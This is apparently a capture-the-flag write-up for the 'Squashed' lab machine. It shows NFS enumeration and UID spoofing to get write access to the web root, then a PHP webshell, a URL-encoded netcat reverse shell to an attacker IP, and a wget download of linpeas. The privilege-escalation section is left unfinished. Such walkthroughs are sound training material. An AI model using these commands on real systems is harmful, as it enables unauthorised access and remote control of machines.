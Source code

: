 # Squashed (Easy)

<figure><img src="../../../.gitbook/assets/Squashed.png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36214/udp6  mountd
|   100005  1,2,3      37093/tcp6  mountd
|   100005  1,2,3      42899/tcp   mountd
|   100005  1,2,3      48117/udp   mountd
|   100021  1,3,4      39287/tcp6  nlockmgr
|   100021  1,3,4      43699/tcp   nlockmgr
|   100021  1,3,4      46570/udp   nlockmgr
|   100021  1,3,4      53611/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
```

Notes:

* <mark style="color:yellow;">SSH</mark> is a possible entry point
* <mark style="color:yellow;">HTTP</mark> is a possible entry point (Apache 2.4.41)
* 2049 <mark style="color:yellow;">NFS</mark> -- Must enumerate for information disclosure etc.

## Enumeration

### Port 80 - HTTP (Apache 2.4.41)

* Added IP address of machine to /etc/hosts under squashed.htb

Directory Bruteforce (Dirsearch):

```
dirsearch -u http://squashed.htb
```

* <mark style="color:yellow;">No lucrative findings</mark>

### Port 2049 - NFS

List available NFS shares:

```
showmount -e squashed.htb

/home/ross    *
/var/www/html *
```

Mount the home directory:

```
sudo mount -t nfs squashed.htb:/home/ross /mnt
```

Enumerate mounted directory:

```
find /mnt -ls
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">We can see that the contents of this directory are all 1001. This is the default permission set for a newly created user. It is 1001 because we do not have a user on our machine with those permissions. So what happens if we try to access it with a newly created user?</mark>

Create user:

```
adduser hacker
```

We can now see **hacker** instead of id 1001 because we have added **hacker** to the machine with the same permissions:

<figure><img src="../../../.gitbook/assets/image (10) (1) (4).png" alt=""><figcaption></figcaption></figure>

Switch user to **hacker**:&#x20;

```
su hacker -c bash
```

There is not anything of use in here let's mount the next directory.

We will need to unmount the current directory first:

```
sudo umount /mnt
sudo mount -t nfs squashed.htb:/var/www/html /mnt
```

After viewing the contents, we see a new id of 2017. We can set this with `usermod`:

```
sudo usermod -u 2017 hacker
```

Switch user:&#x20;

```
su hacker -c bash
```

We can now see that we have access to everything with our new id of 2017:

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

It appears that we are in the <mark style="color:yellow;">web root directory. Can we write to this?</mark>

```
echo "Hacker-here" > /mnt/hacker.html
```

<figure><img src="../../../.gitbook/assets/image (1) (4) (3).png" alt=""><figcaption></figcaption></figure>

Yes, we can! Time to place a webshell in this directory and gain access to this machine!

## Exploitation

Since we found out that /var/www/html is writeable through NFS exploitation, we can place a webshell in here and gain access to the webserver!

Adding webshell into /var/www/html:

```
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/backdoor.php
```

Commands can be executed through the web browser via <mark style="color:yellow;">`?cmd=whoami`</mark>

<figure><img src="../../../.gitbook/assets/image (5) (1) (8).png" alt=""><figcaption></figcaption></figure>

Let's grab a reverse shell through revshells and gain access to this machine

{% embed url="https://www.revshells.com/" %}

* nc mkfifo
* Be sure to URL encode it

This is what my URL encoded reverse shell looked like:

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.10%201337%20%3E%2Ftmp%2Ff
```

Fix your shell:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

{% embed url="https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal" %}

If you are using a Terminal emulator such as Terminator, I found it easier to use the default terminal program for reverse shells.

<mark style="color:yellow;">The user.txt flag can be found in alex's home directory!</mark>

## Privilege Escalation

* Let's transfer and run linpeas

On Kali -- Start HTTP server for file transfer:

```
python3 -m http.server
```

On reverse shell -- wget for catching hosted file:

```
wget http://<kali_ip_here>:8000/linpeas_linux_amd64
```

Change permissions and execute file:

```
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

* I was unable to find something of use

### Local enumeration

### PrivEsc vector

##

